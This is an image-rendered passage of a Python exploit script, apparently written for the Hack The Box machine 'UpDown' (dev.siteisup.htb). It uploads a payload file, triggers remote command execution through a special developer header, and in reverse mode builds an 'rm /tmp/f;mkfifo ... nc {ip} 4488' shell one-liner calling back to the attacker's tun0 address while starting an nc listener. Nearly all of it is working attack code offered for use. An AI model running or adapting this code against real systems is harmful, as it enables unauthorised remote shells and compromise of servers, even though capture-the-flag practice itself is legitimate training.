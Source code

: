 ```python
    ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
    return(ip)


def execute(url, command, ip=None):
    if command == f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} 4488 >/tmp/f":
        print(f"{Fore.GREEN}[+]{Style.RESET_ALL} Preparing reverse shell")
        print (f"{Fore.GREEN}[+]{Style.RESET_ALL} Starting listener on port 4488")
        from subprocess import Popen
        Popen("nc -lvnp 4488",shell=True)
        requests.get(url, headers={'Special-Dev': 'only4dev'})
    elif ip == None:
        print(f"{Fore.GREEN}[+]{Style.RESET_ALL} Executing command '{command}'...")
        output = requests.get(url, headers={'Special-Dev': 'only4dev'})
        if output.status_code == 200:
            print(f"{Fore.GREEN}[+]{Style.RESET_ALL} Response: {output.text}")
        else:
            print(f"{Fore.RED}[-]{Style.RESET_ALL} Response code: {output.status_code} \n{Fore.RED}[-]{Style.RESET_ALL} Data: {output.text}")


def asciiArt():
    print(Fore.CYAN + '''
  _   _       ____                      
 | | | |_ __ |  _ \  _____      ___ __  
 | | | | '_ \| | | |/ _ \ \ /\ / / '_ \ 
 | |_| | |_) | |_| | (_) \ V  V /| | | |
  \___/| .__/|____/ \___/ \_/\_/ |_| |_|
       |_|     by 0xPThree - exploit.se 
       \n''')

def main():
    start = time.time()
    formatter = lambda prog: argparse.HelpFormatter(prog,max_help_position=70)
    parser = argparse.ArgumentParser(formatter_class=formatter)
    parser.add_argument('-c','--command', type=str, help='command to execute')
    parser.add_argument('-r','--reverse', action='store_true', help='create reverse shell')
    args = parser.parse_args()

    base_url = 'http://dev.siteisup.htb/'

    asciiArt()

    if args.reverse:
        ip = getIP()
        shell = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} 4488 >/tmp/f"
        file_name = createPayload(shell)
        rce_url = uploadFile(base_url, file_name)
        execute(rce_url, shell, ip)
    else:
        file_name = createPayload(args.command)
        rce_url = uploadFile(base_url, file_name)
        execute(rce_url, args.command)
        
        end = time.time()
        print(f"\ntime elapsed: {end - start} seconds")

    
if __name__ == "__main__":
    main()
```
